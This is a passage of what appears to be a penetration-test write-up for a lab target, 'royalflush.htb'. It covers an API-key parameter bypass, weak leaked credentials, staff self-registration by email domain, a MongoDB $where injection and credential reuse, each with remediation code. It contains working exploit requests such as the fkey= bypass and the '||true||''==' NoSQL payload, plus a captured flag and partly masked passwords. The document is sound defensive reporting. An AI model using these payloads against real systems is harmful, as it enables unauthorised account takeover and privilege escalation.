> Deleting the `.env` file from the current branch is **not enough**. Secrets remain in Git history and can be recovered using `git log` or `git show`.

#### Option A: Rewrite History *(Recommended for private/internal repos)*

Use `git-filter-repo` or BFG Repo-Cleaner to strip the `.env` file from all commits:

Bash

```
# Install git-filter-repo
pip install git-filter-repo

# Remove .env from entire history
git filter-repo --path .env --invert-paths

# Force-push the rewritten history
git push origin --force --all
```

> ⚠️ **Warning:** Force-pushing rewritten history will disrupt other collaborators. Coordinate with the team and re-clone repositories afterward.

#### Option B: Treat Secrets as Permanently Compromised

If rewriting history is not feasible, rotate the secrets and add monitoring. Accept that old values remain in history but ensure they are no longer valid.

### 3. Prevent Future Commits of Secrets

* **Add `.env` to `.gitignore`:**

  Code snippet

  ```
  # Environment variables and secrets
  .env
  .env.*
  *.pem
  *.key
  ```

* **Use a Secrets Management Solution:** Store secrets outside source code using:

  * Environment variables injected at deployment time

  * A dedicated secrets manager (*AWS Secrets Manager, Azure Key Vault, HashiCorp Vault, Doppler*)

  * Docker secrets or Kubernetes secrets for containerized deployments

* **Use Different Secrets per Environment:** Production, staging, and development must each use unique credentials. Never reuse production secrets in lower environments.

### 4. Improve Authentication Architecture

* **Transition to Server-Side Sessions:** Move away from purely stateless signed tokens where feasible. Store session identifiers server-side (*e.g., Redis, PostgreSQL*) bound to user accounts to enable:

  * Instant session invalidation on logout

  * Detection and revocation of compromised sessions

  * Elimination of single-point-of-failure signing keys

* **Bind Tokens to Client Properties:** Include IP address or User-Agent attributes, or retain binding info server-side to limit token replay if a cookie is hijacked.

* **Implement Token Rotation & Short Expiration:** Reduce token lifetimes and rotate signing keys periodically. Avoid long-lived tokens.

### 5. Additional Hardening

* **Configure Pre-Commit Hooks:** Integrate scanning tools to block hardcoded secrets prior to commit:

  * `git-secrets`

  * `truffleHog`

  * `gitleaks`

* **Audit Repository for Additional Leaks:**

  Bash

  ```
  trufflehog filesystem /path/to/repo
  # or
  gitleaks detect --source /path/to/repo
  ```

* **Review Application and Database Logs:** Audit recent activity for:

  * Logins authenticated via forged tokens/cookies

  * Direct database connections from untrusted IP ranges

  * Unauthorized calls targeting `/api/*` endpoints

  * Email relay abuse via `SMTP_SERVER` config

* **Rotate Infrastructure Credentials:** If database credentials or SMTP keys were reused across other services, rotate those secondary instances as well.

### 6. Verification

After applying patches, run:

Bash

```
git ls-files | grep .env
```

*Ensure the output returns clean with no tracked `.env` instances.*


### Role-upgrade bypass via parameter logic flaw (fookey) {#ef542905-12d7-4c90-890a-b95396542be5}

#### CWE

CWE-284

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:L/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* /api/changeUserRole  params `key`

#### External References


#### Description & Cause

## Summary

A critical Authorization bypass exists in the `api_key_required` decorator protecting the `/api/changeUserRole` endpoint.

The validation logic contains a structural mismatch: it checks for the presence of the literal substring `"key="` anywhere within the raw URL query string, but subsequently retrieves the value of a specific parameter named `key` using `request.args.get('key')`.

An unauthorized attacker can exploit this discrepancy by passing a parameter name that contains `key=` as a substring (such as `fkey=`). This satisfies the raw query string check while causing `request.args.get('key')` to return `None`. Because `None` is neither an empty string nor truthy, all validation checks are bypassed, allowing the request to execute state-changing actions without API key verification.

## Vulnerable Code

Located in `www/__init__.py:36-47`:

Python

```
def api_key_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        if 'key=' not in request.query_string.decode():
            return "Forbidden: Missing API key (parameter 'key')", 403
            
        api_key = request.args.get('key')
        
        if api_key == "":
            return "Forbidden: Empty API key", 403
            
        if api_key and api_key != os.getenv('API_SECRET'):
            return "Forbidden: Incorrect API key", 403
            
        return f(*args, **kwargs)
    return decorator
```

## Root Cause Analysis & Exploitation Flow

When an attacker sends a request like `/api/changeUserRole?fkey=123&user_id=1&role_id=2`, the authentication logic breaks down in four steps:

### 1. Substring Check on Raw Query String


```python
if 'key=' not in request.query_string.decode():
```

The guard inspects the raw URL string for the contiguous character sequence `k-e-y-=`. Passing `fkey=123` satisfies this check because `"key="` exists inside `"fkey="`, so execution continues.

### 2. Parameter Lookup Mismatch


```python
api_key = request.args.get('key')
```

Flask parses query parameters strictly by exact key name. Because the actual parameter sent was `fkey` and not `key`, `request.args.get('key')` returns `None`.

### 3. Empty String Check Bypass


```python
if api_key == "":
```

The code checks whether the API key is an empty string (`""`). Because `api_key` is `None` (non-existent parameter) rather than `""` (empty parameter), `None == ""` evaluates to `False`. This check is safely bypassed.

### 4. Falsy Guard Bypass


```python
if api_key and api_key != os.getenv('API_SECRET'):
```

Because `api_key` is `None` (a falsy value in Python), the logical `AND` condition short-circuits to `False` without evaluating `api_key != os.getenv('API_SECRET')`. The error is skipped entirely, and the request falls through to `return f(*args, **kwargs)`.


#### Security Impact


The breakdown of the `api_key_required` decorator leads to severe, application-wide security risks:

* **Unauthenticated Privilege Escalation:** An attacker can promote any target account (or their own) to the `admin` role (`role_id=2`) without needing valid session credentials or a legitimate `API_SECRET`.
* **Full Account Takeover & Secret Extraction:** By self-escalating to administrator, an attacker gains immediate access to the `/admin` portal, allowing them to extract critical application assets such as `admin_secret`.
* **Mass Account Modification Across Endpoints:** Because the vulnerable `api_key_required` decorator is reused across the API, endpoints like `/api/changeUsername` and `/api/changeUserPassword` suffer from the exact same bypass. An attacker can arbitrarily reset passwords, alter usernames, or hijack any account on the platform.
* **Complete Application Compromise:** Unrestricted access to administrative features and backend parameters results in total data exposure, allowing full disclosure of user data, database contents, and internal environment secrets.


#### Detailed Walkthrough

## Discovery

During source-code review, the `api_key_required` decorator in `www/__init__.py` was identified as the access-control mechanism for administrative API endpoints.

Closer inspection revealed that the decorator validated the presence of the substring `"key="` in the raw query string, but then retrieved the API key value using `request.args.get('key')`. This mismatch meant that any parameter name containing `"key="` as a substring—such as `fkey`—would satisfy the initial check while causing `request.args.get('key')` to return `None`. Because `None` is falsy, the validation comparison against `API_SECRET` was skipped completely, bypassing the authentication requirement.

## Exploitation

The target endpoint `/api/changeUserRole` is intended to require a valid API key. To exploit the logic flaw, the following request was crafted without providing a legitimate `key` parameter:


```http
GET /api/changeUserRole?fkey=anything&user_id=<attacker_user_id>&role_id=2 HTTP/1.1
Host: www.royalflush.htb
```


```sql
UPDATE user_roles SET role_id = 2 WHERE user_id = <attacker_user_id>
```

## Result

The targeted account was successfully promoted to administrator (`role_id = 2`). Upon refreshing the session, the `/admin` dashboard became fully accessible, exposing the entire user directory and revealing the `admin_secret`.

{width="auto"}

                                                              flag `da3d97b0bc320ac2197b3dd03b6f292a`

{width="auto"}


#### Patching and Remediation

## Primary Fix — Correct the API Key Validation Logic

The `api_key_required` decorator must check the actual parameter or header value, not a substring of the raw query string. Replace the flawed logic in `www/__init__.py:36-47`.

###  Fix the Existing Query-Parameter Approach

```python
def api_key_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        api_key = request.args.get('key')
        if not api_key:
            return "Forbidden: Missing API key", 403
        if api_key != os.getenv('API_SECRET'):
            return "Forbidden: Incorrect API key", 403
        return f(*args, **kwargs)
    return decorator
```

**This ensures:**

* Only a parameter literally named `key` is accepted.
* An empty or missing key returns `403`.
* The value is securely compared against `API_SECRET`.
## Add Authentication and Authorization to `/api/changeUserRole`

The endpoint must verify that the caller is logged in and has administrative privileges. The API key alone should **not** grant access to role changes.

```python
@app.route('/api/changeUserRole', methods=['POST'])
@login_required
@admin_required
def api_changeUserRole():
    user_id = request.form.get('user_id')
    role_id = request.form.get('role_id')
    
    if not user_id or not role_id:
        return "Missing parameters", 400
        
    with db.connect() as conn:
        cursor = conn.cursor()
        cursor.execute('UPDATE user_roles SET role_id = %s WHERE user_id = %s', (role_id, user_id))
        conn.commit()
        
    return "OK"
```

### Key Changes:

* **`methods=['POST']`**: Role changes are state-modifying actions and must not use `GET`.
* **`@login_required`**: Ensures a valid session exists.
* **`@admin_required`**: Ensures only administrators can modify user roles.

### Example Decorators:

```python
def login_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = auth.parse_token(request.cookies.get(auth.cookie_name))
        if not token:
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorator

def admin_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = auth.parse_token(request.cookies.get(auth.cookie_name))
        if not token or not auth.is_admin(token['email']):
            return "Forbidden: Admin access required", 403
        return f(*args, **kwargs)
    return decorator
```

## Rotate the API Secret

> **Critical Note:** Because the original `API_SECRET` was exposed in version-control history, rotate it immediately in your environment variables and treat the old value as fully compromised.

## Apply the Same Fix to All API Endpoints

The same authentication bypass affects multiple endpoints:

* `/api/changeUsername` (`www/__init__.py:205`)
* `/api/changeUserPassword` (`www/__init__.py:222`)
* `/api/changeUserRole` (`www/__init__.py:241`)

### Implementation Standards for Endpoints:

1. Use `POST`, not `GET`.
2. Require a valid user session.
3. Enforce proper authorization checks (IDOR prevention).
4. Accept `user_id` modifications **only from administrators**; normal users should only be permitted to modify their own active account session.

### Example for Non-Admin User Endpoints:

```python
@app.route('/api/changeUsername', methods=['POST'])
@login_required
def api_changeUsername():
    new_username = request.form.get('username')
    token = auth.parse_token(request.cookies.get(auth.cookie_name))
    
    if not new_username:
        return "Missing username parameter", 400
        
    with db.connect() as conn:
        cursor = conn.cursor()
        cursor.execute('UPDATE users SET username = %s WHERE email = %s', (new_username, token['email']))
        conn.commit()
        
    return "OK"
```


### Leaked credentials charles:charles on forum.royalflush.htb {#28049f2f-465c-4337-ac38-1f4f6bdde7c0}

#### CWE

CWE-200

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N (6.9 - Medium)

#### Affected Component(s)

* https://forum.royalflush.htb

#### External References


#### Description & Cause

During initial reconnaissance, public content on the **RoyalFlush forum** was reviewed. A public thread contained a message from an administrator instructing a user named `charles` not to set a password identical to his username.

This public disclosure allowed an unauthenticated attacker to infer the exact account credentials (`charles:charles`). Using these credentials, authentication to the main **RoyalFlush application** was successfully established, leading to an Account Takeover (ATO) of a standard user.

## Root Causes

1. **Sensitive Information Disclosure (Public Channel)**

   * Application administrators discussed specific credential patterns and username-password compositions in an unauthenticated, publicly indexable forum thread.

2. **Weak Password Policy Enforceability**

   * The core application allowed users to set trivial passwords identical to their usernames, lacking complexity controls or checks against common/predictable passwords.


#### Security Impact

* **Account Takeover (Single User):** Full access to `charles`'s account, allowing authorization to all standard features (e.g., account settings, gameplay).
* **Expanded Attack Surface / Lateral Movement:** While the account holds no administrative privileges (preventing direct access to `/admin` or privileged endpoints), gaining an authenticated state enables post-authentication testing, reply to threads , etc....


#### Detailed Walkthrough

## Initial Reconnaissance & Credential Disclosure

During the initial reconnaissance phase, public content on the **RoyalFlush forum** (`[http://forum.royalflush.htb](http://forum.royalflush.htb)`) was analyzed. A thread was identified in which an administrator posted a public message advising a user named `charles` not to set his password to be identical to his username.

### Credential Inference

Based on the explicit disclosure in the public forum thread, the target credentials were inferred as:

* **Username:** `charles`
* **Password:** `charles`

{width="auto"}
## Exploitation & Verification

1. Navigated to the primary RoyalFlush login portal at `[https://www.royalflush.htb/login](https://www.royalflush.htb/login)`.
2. Submitted the inferred credentials (`charles:charles`).
3. The authentication request was successful, yielding a valid session for the target account.

## Post-Exploitation & Impact Assessment

* **Access Level:** Successfully authenticated as `charles`.
* **Privilege Level:** Inspection of the session context confirmed the account operates with default standard privileges .
* **Available Functionality:** The access grants interaction only with standard user feature


#### Patching and Remediation

## Remediation & Mitigation Strategy

### 1. Immediate Actions

1. **Force Account Password Reset:**

   * Invalidate current session tokens and password hashes for the `charles` account immediately.
   * Require the user to establish a strong, unique password upon next authentication.
   * Dispatch password-reset links via out-of-band, verified channels (e.g., registered email), avoiding public communication platforms.

2. **Content Redaction and Cache Purging:**

   * Delete or redact the specific forum post containing the credential exposure.
   * Audit and clear potential downstream exposure vectors, including local forum archives, search engine caches, and database backups containing the post text.

3. **Historical Exposure Audit:**

   * Perform an automated database search across historical forum threads for keywords such as `password`, `login`, `credentials`, or plain-text patterns.
   * Scrub any secondary sensitive disclosures identified during the sweep.

### 2. Preventing Weak Passwords

4. **Enforce Strong Password Policies:** Update registration and password-reset controllers to strictly reject weak or predictable input, including passwords matching the username or common dictionary entries.

   Python

   ```
   import re

   def is_password_strong(username, password):
       # Reject short passwords
       if len(password) < 12:
           return False

       # Reject trivial username-password matching
       if password.lower() == username.lower():
           return False

       # Enforce character diversity rules
       if not re.search(r'[A-Z]', password):
           return False
       if not re.search(r'[a-z]', password):
           return False
       if not re.search(r'\d', password):
           return False
       if not re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
           return False

       return True
   ```


5. **Interactive Strength Indicators:**

   * Implement real-time client-side feedback mechanisms to guide users toward higher-entropy passphrases.

### 3. Operational Guidance & Process Improvements

6. **Administrative Security Awareness:**

   * Mandate training for administrative and support staff to enforce strict confidential handling of account details.
   * Restrict support communications exclusively to authenticated, encrypted ticketing channels.


### 4. Technical Hardening

7. **Implement Login Rate Limiting:** Thwart automated credential-stuffing and brute-force attacks by enforcing rate limiting at the API gateway or application layer.

   Python

   ```
   # Example implementation using Flask-Limiter
   from flask_limiter import Limiter

   limiter = Limiter(app=app, key_func=lambda: request.remote_addr)

   @app.route('/login', methods=['POST'])
   @limiter.limit("5 per minute")
   def login():
       # Authentication logic
       pass
   ```


8. **Enforce Multi-Factor Authentication (MFA):**

    * Deploy Time-based One-Time Password (TOTP) or FIDO2/WebAuthn MFA options to prevent unauthorized access even in the event of password compromise.

### 5. Verification & Remediation Testing

Post-patch verification must confirm the following operational controls:

* **Credential Invalidation:** The `charles:charles` credential pair is rejected by the authentication endpoint.
* **Content Scrubbing:** The public forum thread no longer exposes sensitive user information.
* **Input Validation:** Password update forms actively reject weak patterns (e.g., `password == username`).
* **Rate Limiting:** Excessive consecutive login requests trigger an HTTP `429 Too Many Requests` response.


### No domain restriction at registration {#009c6a45-40b2-44ee-8c6b-769c061549e0}

#### CWE

CWE-269

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:H/VA:N/SC:N/SI:N/SA:N (8.8 - High)

#### Affected Component(s)

* app/Http/Controllers/AuthController.php:18-61  (handleCreateAccount)

#### External References


#### Description & Cause

The application’s authentication logic contains an improper privilege management vulnerability. The registration endpoint permits arbitrary email domain input without validation or domain ownership verification. Simultaneously, `AuthService::isUserStaff()` dynamically evaluates a user's email domain during the login flow and automatically grants staff-level access if the email address ends in `@royalflush.htb`.

Because registration is completely unconstrained, an unauthenticated attacker can register an arbitrary account using the target domain (e.g., `attacker@royalflush.htb`). Upon logging in, the application assigns `isStaff = true` in the user's session, resulting in full horizontal and vertical privilege escalation to staff-level functionalities.

## Root Causes & Architectural Flaws

### 1. Missing Registration Domain Validation

In `AuthController.php:handleCreateAccount`, the application accepts and stores user-supplied email input without enforcing domain whitelists, checking user authorization, or requiring administrative pre-approval.


```php
// Unvalidated input assignment in AuthController.php
$email = $request->input('email');
...
$user['email'] = $email;
```

### 2. Implicit Privilege Assignment Based on Identifier

Staff privileges are assigned strictly via string parsing of the email address rather than relying on explicit, database-backed Role-Based Access Control (RBAC).


```php
// Dynamic role evaluation in AuthService.php
public static function isUserStaff($email) {
    $tk = explode("@", $email);
    return strcmp($tk[1], "royalflush.htb") == 0;
}
```

* **Flaw:** Implicitly trusts user-controllable input (`email`) as an authoritative privilege indicator.
* **Impact:** Any account created with the matching suffix inherits staff permissions immediately.

### 3. Non-Functional Identity & Domain Verification

While `handleCreateAccount` generates a verification token and `handleLogin` checks `$user['verified'] == true`, the underlying identity verification mechanism fails to validate domain control:

* Outgoing verification emails are disabled/commented out in deployment (`AuthController.php:44-48`).
* The system does not verify whether the registrant possesses an active, legitimate mailbox on the `@royalflush.htb` domain.


#### Security Impact


* **Staff access to the forum** The attacker gains staff privileges, which typically include content moderation, user management, and access to staff-only forum features.
* **Trusted-platform abuse** Staff status makes malicious posts or announcements appear legitimate to regular forum users.
* **Potential phishing and social engineering** An attacker with staff rights can publish content that mimics official RoyalFlush communication.


#### Detailed Walkthrough

### Source-Code Review

While reviewing the forum source code at `/home/hassan/Desktop/code/forum-main/forum`, the pentester examined the account-registration flow in `app/Http/Controllers/AuthController.php` and the staff-check logic in `app/Services/AuthService.php`.


The pentester observed that:

1. The registration handler accepts any email address without validating the domain.
2. The `isUserStaff()` function grants staff privileges automatically when the email domain is `royalflush.htb`.

### Exploitation

To confirm the flaw, the pentester navigated to the forum registration page at `[http://forum.royalflush.htb/create-account](http://forum.royalflush.htb/create-account)` and submitted the following registration form:

| **Field**           | **Value**                 |
| ------------------- | ------------------------- |
| **Username**        | `test`                |
| **Email**           | `test@royalflush.htb` |
| **Password**        | `test`       |
| **Repeat Password** | `test`       |

The application processed the request and created the account successfully:

{width="auto"}

### Verification of Staff Status

After completing the email-verification step and logging in with the newly created account, the application executed the login handler:

PHP

```
// app/Http/Controllers/AuthController.php:128-134
session([
    'userId' => $user['id'],
    'username' => $user['username'],
    'email' => $user['email'],
    'isStaff' => AuthService::isUserStaff($user['email'])
]);
```


#### Patching and Remediation

Here is the formatted Markdown version of your remediation and mitigation steps, cleaned up and structured for reporting or documentation:

## Remediation Plan

###  Block Self-Registration with Internal Domain

Update `app/Http/Controllers/AuthController.php:handleCreateAccount` to reject any registration attempt using an `@royalflush.htb` email address:


```php
public function handleCreateAccount(Request $request) {
    if ($request->has('username') && $request->has('email') && $request->has('password') && $request->has('repeatPassword')) {
        $username = $request->input('username');
        $email = $request->input('email');
        $password = $request->input('password');
        $repeatPassword = $request->input('repeatPassword');

        // Prevent public registration with internal staff domain
        if (str_ends_with(strtolower($email), '@royalflush.htb')) {
            session()->flash('status', 'Registration with this domain is restricted. Contact an administrator.');
            session()->flash('statusType', 'danger');
            return view('create-account');
        }

        if (strcmp($password, $repeatPassword) === 0) {
            $passwordHash = password_hash($password, PASSWORD_BCRYPT);
            // ...
        }
    }
    // ...
}
```


### Restrict Staff Account Provisioning

Do not allow public self-registration for staff accounts under any condition. Implement an administrative control flow:

* **Manual Admin Promotion:** An existing administrator explicitly toggles `is_staff = true` after verifying the identity of the user.
* **Invitation-Only Provisioning:** Require staff to register using a cryptographically signed, single-use invitation link generated by an admin.

###  Validate and Sanitize Input

Enforce native Laravel validation rules at the entry point of `handleCreateAccount` to harden input handling:

PHP

```
$request->validate([
    'username' => 'required|unique:users,username|max:50',
    'email'    => 'required|email|unique:users,email',
    'password' => 'required|min:12|confirmed',
]);
```


###  Audit Existing Accounts

* Query the database for all existing accounts containing the `@royalflush.htb` domain.
* Revoke staff access or demote any accounts created through the public registration interface.
* Force a password reset for legitimate staff accounts if unauthorized access or session compromise is suspected.

## Verification Criteria

* **Domain Restriction:** Registering with `attacker@royalflush.htb` triggers an explicit restriction error and halts account creation.
* **Default Privilege Level:** All newly created users default to `is_staff = false`.
* **Access Control:** Privileged capabilities are strictly reserved for accounts explicitly granted staff status in the database.
* **Abuse Control:** Excess registration requests trigger a `429 Too Many Requests` HTTP response.


### NoSQL Injection at verify-email endpoint forum.royalflush.htb {#b5ce6c43-ed46-4f81-8e44-30a5e758daae}

#### CWE

CWE-943

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:H/VA:N/SC:N/SI:N/SA:N (8.8 - High)

#### Affected Component(s)

* AuthController::showVerifyEmail() in app/Http/Controllers/AuthController.php  (GET /verify-email)

#### External References


#### Description & Cause

The /verify-email endpoint is vulnerable to NoSQL injection through MongoDB's \$where operator. When a user clicks an email verification link, the application retrieves the corresponding\
verificationTokens document by building a JavaScript expression from the user-supplied token and email parameters. Because the input is concatenated directly into the expression string\
without sanitization or parameterization, an attacker can inject arbitrary JavaScript into the query. This allows manipulation of the verification logic—most directly, an attacker can\
bypass the token check and verify any unverified account, including accounts they do not own, by forcing the \$where clause to evaluate to true.

Cause

The root cause is unsafe construction of a MongoDB \$where query using sprintf() with raw user input:

```php
  $where = sprintf("return this.token == '%s' && this.userId == '%s'", $token, $user['id']);                                                                                              
  $verificationToken = $verificationTokens_collection->findOne(['$where' => $where]);                                                                                                     
```

The application treats token and email as trusted string literals rather than untrusted data. MongoDB's \$where operator executes the supplied string as JavaScript in the database context.

#### Security Impact

**Email Verification Bypass:** The application's only gate for account activation is rendered ineffective. An attacker can activate accounts they do not own.


#### Detailed Walkthrough

#### 1. Source-Code Review

While reviewing `app/Http/Controllers/AuthController.php`, the pentester noticed that `showVerifyEmail()` builds a MongoDB `$where` query by concatenating the user-supplied `token` and `email` values directly into a JavaScript expression:

PHP

```
$where = sprintf("return this.token == '%s' && this.userId == '%s'", $token, $user['id']);
$verificationToken = $verificationTokens_collection->findOne(['$where' => $where]);
```

Because `$where` executes the string as JavaScript inside MongoDB, any injected JavaScript alters the query logic. A token value containing `'` breaks out of the string literal, allowing the attacker to rewrite the comparison.

#### 2. Account Creation

The pentester registered a new account with an email address under the `royalflush.htb` domain, for example:

Plaintext

```
asd@royalflush.htb
```

> **Note:** This domain is significant because `AuthService::isUserStaff()` grants staff privileges to any user whose email ends in `@royalflush.htb`.

#### 3. Malicious Verification Request

Without using the legitimate verification token sent by email, the pentester sent the following request:

HTTP

```
GET /verify-email?email=asd@royalflush.htb&token='||true||''==' HTTP/1.1
Host: royalflush.htb
```

The injected token transforms the `$where` expression from:

JavaScript

```
return this.token == '<token>' && this.userId == '<userId>'
```

into:

JavaScript

```
return this.token == ''||true||''=='' && this.userId == '<userId>'
```

Due to operator precedence and short-circuit evaluation, the expression evaluates to `true`, causing `findOne()` to return the first matching verification token document. The application then treats the request as valid and marks the account as verified.

#### 4. Verification and Access

The application responded with the success message:

> *"Thank you, your email has been successfully verified


{width="auto"}

The pentester could now log in to the activated account. Because the email domain was `@royalflush.htb`, the session was created with `isStaff = true`, granting access to staff-only forums and staff-only content across the application.


#### Patching and Remediation

### 1. Eliminate the `$where` Operator

Do **not** use MongoDB's `$where` operator with any user-controlled input. `$where` executes arbitrary JavaScript inside the database engine and cannot be safely parameterized, making it highly vulnerable to NoSQL Injection (SSJI).

Replace any raw `$where` evaluation with standard Eloquent query-builder lookups that use MongoDB's native comparison operators:


```php
public function showVerifyEmail(Request $request)
{
    $request->validate([
        'email' => 'required|email',
        'token' => 'required|string|alpha_num|size:128',
    ]);

    $email = $request->input('email');
    $token = $request->input('token');

    $user = User::where('email', $email)->first();

    if (!$user) {
        return $this->invalidVerification();
    }

    $verificationToken = VerificationToken::where('userId', $user->id)
        ->where('token', $token)
        ->first();

    if ($verificationToken) {
        $user->update(['verified' => true]);
        $verificationToken->delete(); // One-time use

        session()->flash('status', 'Thank you, your email has been successfully verified');
        session()->flash('statusType', 'success');
        
        return view('verify-email');
    }

    return $this->invalidVerification();
}

private function invalidVerification()
{
    session()->flash('status', 'Invalid or expired verification link');
    session()->flash('statusType', 'danger');
    
    return view('verify-email');
}
```

### 2. Strict Input Validation

Validate and sanitize both `email` and `token` prior to performing database execution.

* Enforce strict typing (`string`, `alpha_num`).
* Require exact string lengths (`size:128`) to neutralize payload injection at the HTTP request layer before reaching MongoDB.

### 3. One-Time Token Use

Always invalidate or delete the `VerificationToken` document immediately after a successful status change. This prevents token replay attacks and limits exposure if tokens leak via web server access logs or browser history.

### 4. Token Expiration (TTL Check)

Ensure verification tokens are short-lived. Store a timestamp during token creation and check for expiration against a designated Time-To-Live (e.g., 24 hours):


```php
$verificationToken = VerificationToken::where('userId', $user->id)
    ->where('token', $token)
    ->where('created_at', '>=', now()->subHours(24))
    ->first();
```

Alternatively, leverage MongoDB **TTL Indexes** on the `created_at` field to automatically purge expired documents at the database layer.


### Creds Leak at forum.royalflush.htb {#11975b2f-d6df-4f75-989c-19dd279e2467}

#### CWE

CWE-200

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)


#### External References


#### Description & Cause

The application contains private, staff-only forum threads that are intended for internal administrative discussions. However, these threads are being used to share plaintext account credentials, including password resets.

Because the threads are readable by any staff or admin user (and by anyone who gains staff-level access), the credentials are exposed within the privileged boundary. An attacker who compromises or elevates to a staff account can read these private threads, extract the leaked password and related identity information, and reuse them to access other internal services such as `vault.royalflush.htb`.

## Root Cause

The issue is not that regular users can view the threads—the threads are properly restricted to staff/admin users. The root cause is that plaintext credentials are being stored and transmitted through a multi-user staff channel:

1. **No secure channel for password reset delivery**

   `AuthController::handleLostPassword()` generates a random password, but the `mail()` call is commented out. As a result, the password is never delivered securely to the user's email:

   PHP

   ```
   try {
       // mail(
       //     $user['email'],
       //     'RoyalFlush Forum Password Reset',
       //     'Your password has been reset. It is now:\n' . $newPassword
       // );
   } catch (Exception $e) {}
   ```

   With the intended delivery path broken, staff resort to sharing the new password inside the staff-only thread.

2. **Plaintext credential sharing in staff threads**

   The staff-only thread contains a post with the plaintext password `42zyTJ94BwdKjE******` and another post with the user's contact handle (`jdov****#0066`). The application stores this content in cleartext in the `posts` collection and renders it to every staff member who can access the thread.

3. **No input filtering or data-loss prevention**

   `ThreadController::handlePost()` accepts the `content` parameter and saves it directly into a new `Post` document without inspecting it for patterns such as passwords, API keys, email addresses, or tokens:

   PHP

   ```
   $content = $request->input('content');
   $post = new Post();
   $post['threadId'] = $id;
   $post['userId'] = session()->get('userId');
   $post['content'] = $content;
   $post->save();
   ```


#### Security Impact


The exposure of plaintext credentials within staff-only threads leads to the following high-severity security impacts:

* **Account Takeover of the Affected User** An attacker who can read the staff-only thread obtains the plaintext password (`42zyTJ94BwdKjE******`) and the user's associated email address (`jdov****@royalflush.htb`). With these credentials, the attacker can authenticate as the user and gain unauthorized access to any internal or external service where the same credentials are valid.
* **Compromise of Internal Administrative Services** The leaked credentials were successfully reused against `vault.royalflush.htb`. Because the compromised account belongs to an administrator/staff member, the attacker gains direct access to sensitive internal vaults, restricted documentation, and administrative controls.


#### Detailed Walkthrough

### 1. Browsing Staff-Only Threads

After gaining staff-level access to the forum, review the private staff threads. In `thread/2`, a password-reset conversation is exposed in plaintext:

Plaintext

```
john: Like the question says, how can I access the team slack? I got logged out and realized I don't remember the password lul
admin: The password is in Vault.
john: Ahhhh okay.. what if I don't remember my password for vault either?
admin: Mmmm alright, I'll have will change your password{width="auto"}
will: Hi John! I just reset you password to `42zyTJ94BwdKjEw******`. Your email is still the same one as here. Make sure you change it once you log in.
john: Thx, will do <3
```

{width="auto"}


### 2. Collecting Leaked Credentials

From this thread, extract the exposed sensitive data:

* **Username:** `john`
* **Password:** `42zyTJ94BwdKjE******`
* **Note:** Confirmation from `admin` that the user's email address matches the forum registration.

### 3. Enumerating the Target Email Address

Reviewing `thread/4` reveals another post where the same user shared his Discord handle while offering administrative support:

Plaintext

```
roverturbo: How can I change my email? I don't use this one for much anymore
john: Hi, we have not implemented this functionality yet. But if you message me privately I can change it for you. Discord: jdov****#0066
roverturbo: Ok I messaged you
```


{width="auto"}

From the Discord handle `jdov****#0066`, infer the username `jdov****` and construct the associated corporate email address:

Plaintext

```
jdov****@royalflush.htb
```

### 4. Credential Reuse Against Internal Vault

Navigate to `[https://vault.royalflush.htb](https://vault.royalflush.htb)` and authenticate using the extracted credentials:

Plaintext

```
Email:    jdov****@royalflush.htb
Password: 42zyTJ94BwdKjE******
```

The application accepts the credentials, granting full access to the vault under John's account and confirming account takeover via information leaked in internal staff threads.


#### Patching and Remediation

1. Fix and enable secure password reset delivery                                                                                                                                          
      Do not share plaintext passwords in forum threads. Uncomment and properly configure the mail() call in AuthController::handleLostPassword(), or better, use Laravel's Mail facade with 
      a proper mail driver:                                                                                                                                                                  
                                                                                                                                                                                             
      ```php                                                                                                                                                                                 
        use Illuminate\Support\Facades\Mail;                                                                                                                                                 
        use App\Mail\PasswordResetMail;                                                                                                                                                      
                                                                                                                                                                                             
        $newPassword = AuthService::generateRandomString(16);                                                                                                                                
        $newPasswordHash = password_hash($newPassword, PASSWORD_BCRYPT);                                                                                                                     
        $user->update(['password' => $newPasswordHash]);                                                                                                                                     
                                                                                                                                                                                             
        Mail::to($user->email)->send(new PasswordResetMail($newPassword));                                                                                                                   
      ```                                                                                                                                                                                    
                                                                                                                                                                                             
      Alternatively, switch to a time-limited, single-use password reset link instead of emailing a plaintext temporary password.                                                            
                                                                                                                                                                                             
   2. Use password reset tokens instead of plaintext passwords                                                                                                                               
      Generate a cryptographically random token, store its hash in the database with an expiration timestamp, and email the user a link such as:                                             
                                                                                                                                                                                             
      ```                                                                                                                                                                                    
        https://forum.royalflush.htb/reset-password?token=<random_token>                                                                                                                     
      ```                                                                                                                                                                                    
                                                                                                                                                                                             
      This removes the need for staff to ever see or transmit a user's password.                                                                                                             
                                                                                                                                                                                             
   3. Create a secure support channel for sensitive requests                                                                                                                                 
      Do not handle password resets in shared staff threads. Implement a private ticket system, direct-message feature, or out-of-band communication workflow (e.g., verified email or       
      internal chat) where only the affected user and the assigned staff member can view the sensitive details.                                                                              
                                                                                                                                                                                                                                                                                    
   4. Enforce password change on first login                                                                                                                                                 
      If a temporary password must be issued, set a flag forcing the user to change it immediately upon login. Store the flag in the user record and redirect to a password-change form      
      before allowing normal use.                                                                                                                                                                                                                                                                                                                         
                                                                                                                                                                                             
   5. Monitor and audit staff threads                                                                                                                                                        
      Implement logging and alerting for posts containing potential secrets. Regularly audit staff-only threads for exposed credentials and rotate any leaked credentials immediately.       
 


### SQL Injection at Vault.royalflush.htb {#3d54335f-b7d9-4631-b09e-78cdc0d306a8}

#### CWE

CWE-89

#### CVSS 4.0

